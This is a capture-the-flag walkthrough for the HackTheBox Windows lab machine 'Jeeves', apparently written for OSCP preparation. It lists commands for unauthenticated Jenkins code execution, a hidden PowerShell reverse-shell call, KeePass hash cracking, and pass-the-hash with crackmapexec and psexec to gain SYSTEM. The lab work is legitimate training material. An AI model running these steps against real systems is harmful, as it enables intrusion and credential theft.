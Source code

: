 ## 📌 Box Info
- **OS**: [Windows](Windows)
- **Difficulty**: [Medium](Medium)
- Platform: [HTB](HTB)
- Prep: [OSCP](OSCP)
- **Key Techniques:**  
  1. Unauthenticated Jenkins RCE  
  2. Exfil KeePass DB via Jenkins workspace  
  3. Crack master‑password → extract NTLM hash  
  4. Pass‑the‑hash to get SYSTEM  
  5. Alternate Data Stream for root.txt  

---

## TL;DR 🚀
1. **Recon:**  
   - `nmap` → ports **80** (IIS), **50000** (Jetty), **445** (SMB)  
   - Web on 50000 → **/askjeeves** found with `gobuster` + DirBuster list  
2. **Jenkins RCE:**  
   - Navigate to `http://10.10.10.63:50000/askjeeves` → Jenkins UI, no auth  
   - Use **Script Console** or create a **Freestyle Job** to run `cmd.exe /c whoami`  
   - Replace with reverse‑shell payload → get `jeeves\kohsuke` shell  
3. **Initial Shell (kohsuke):**  
   - `type C:\Users\kohsuke\Desktop\user.txt` → user flag  
   - Find `CEH.kdbx` in `C:\Users\kohsuke\Documents`  
4. **Exfil & Crack KeePass:**  
   - Copy `CEH.kdbx` into Jenkins workspace → download  
   - `keepass2john CEH.kdbx > CEH.hash`  
   - `hashcat CEH.hash rockyou.txt` → **moonshine1**  
5. **Dump NTLM Hash:**  
   - `kpcli --kdb CEH.kdbx` → show “Backup stuff” entry:  
     ```
     LM: aad3b435…0000   NT: e0fb1fb8…fe00
     ```  
6. **Pass‑the‑Hash → SYSTEM:**  
   - `crackmapexec smb 10.10.10.63 -u Administrator -H aad3b435…:e0fb1fb8…` (Pwn3d!)  
   - `psexec.py -hashes aad3b435…:e0fb1fb8… Administrator@10.10.10.63 cmd.exe`  
7. **Root Flag via ADS:**  
   - On admin desktop: `dir /R hm.txt`  
   - Read hidden stream: `more < hm.txt:root.txt` → root flag  

---

## Essential Commands 🛠️

```bash
# 1. Find Jenkins (/askjeeves) on port 50000
gobuster dir -u http://10.10.10.63:50000/ \
  -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt \
  -x txt,php,html

# 2. Jenkins RCE via Script Console
# (e.g.) Groovy: println "cmd.exe /c whoami".execute().text

# 3. Reverse shell payload in a Freestyle Jenkins job
powershell -NoP -NonI -W Hidden -Exec Bypass \
  -EncodedCommand <base64-payload>

# 4. KeePass master-password cracking
keepass2john CEH.kdbx > CEH.hash
hashcat -m 13400 CEH.hash /usr/share/wordlists/rockyou.txt

# 5. Extract NTLM hash with kpcli
kpcli --kdb CEH.kdbx
  find .
  show -f <entry#>

# 6. Pass‑the‑hash to get SYSTEM
crackmapexec smb 10.10.10.63 \
  -u Administrator \
  -H aad3b435b51404eeaad3b435b51404ee:e0fb1fb85756c24235ff238cbe81fe00

# 7. Psexec shell
psexec.py -hashes aad3b435…:e0fb1fb8… \
  Administrator@10.10.10.63 cmd.exe

# 8. Read root.txt from ADS
dir /R hm.txt
more < hm.txt:root.txt
```

---

## Key Takeaways 🔑
- **Unauthenticated Jenkins** → immediate RCE via Script Console or build steps.  
- **Jenkins workspace** makes exfil—drop any file there and fetch over HTTP.  
- **KeePass DB** on user profile can leak high‑priv creds if master password is weak.  
- **Pass‑the‑hash** remains a powerful Windows attack when NTLM hashes are recovered.  
- **Alternate Data Streams (ADS)** hide files in plain sight—remember `dir /R`.  